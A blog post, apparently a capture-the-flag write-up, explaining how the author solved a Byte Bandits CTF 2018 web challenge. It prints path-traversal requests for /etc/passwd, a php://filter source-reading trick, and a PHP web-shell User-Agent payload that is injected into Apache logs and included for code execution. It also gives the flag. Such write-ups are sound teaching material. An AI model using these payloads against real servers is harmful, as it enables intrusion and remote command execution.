 ```yaml
---
layout: post
title: Byte Bandits CTF 2018 - R3M3MB3R
author:
  name: Crisis
comments: true
---
```

I also participated in the Byte Bandits CTF this weekend. This web challenge encountered somes issues and was modified a few times from what I saw, so other people might have not done it the way I have. But anyway, here's how I did it.  
The vulnerability was a local file inclusion (LFI). It was easy to find: if you visited `http://web.euristica.in/R3M3MB3R/index.php?f=../../../etc/passwd`, you would get the passwd file. The tricky thing was that `index.php` was filtered in the URL, so it was not possible to directly include it. Some PHP wrappers were activated on the server, so I managed to download the `eg.php` file that way ([http://web.euristica.in/R3M3MB3R/index.php?f=php://filter/read=convert.base64-encode/resource=eg.php]()), but nothing interesting was in it, and because of the filter you couldn't retrieve the index like this.  
After some time spent trying, and failing, to bypass that filter, I decided to try something else. My next idea was to include some log files from the server, in which I could inject some PHP code that would be executed when included. I've recently [read a bit on the subject](http://ly0n.me/2015/10/19/lfi-beyond-procselfenviron/), and I found several files:  
```
http://web.euristica.in/R3M3MB3R/index.php?f=../../../var/log/apache2/access.log
http://web.euristica.in/R3M3MB3R/index.php?f=../../../proc/self/fd/2
http://web.euristica.in/R3M3MB3R/index.php?f=../../../proc/self/fd/7
```
PHP code could be injected in each of these logs files using different ways, but to get the flag I used `access.log`. They had a few issues with that file during the CTF. It was removed at some point, then was blocked, then was cleared every 30 seconds or so, and that's how it stayed until the end I believe.  
I injected PHP in the page by modifying my `User-Agent` header with Burp:
```php
User-Agent: <?php echo shell_exec($_REQUEST['cmd']); ?>
```
A simple `ls` revealed where the flag was:
![phpinfo](/medias/bytesbandit18/cat.png)  
  
And you could then directly access it:
```
http://web.euristica.in/R3M3MB3R/S3cR3T_FL4G.txt
flag{S0metim3s_it5_b3tter_to_4_GET} 
```
They changed the file's name later on, and it became `S3cR3T_FL4G_da456sds.txt`. Not sure why, and it might have changed some more, but that's how it was called initially anyway. 
With code execution, you could of course download `index.php` as well by doing `cat /var/www/html/index.php|base64`, but [there was nothing interesting in it](/medias/bytesbandit18/index.txt).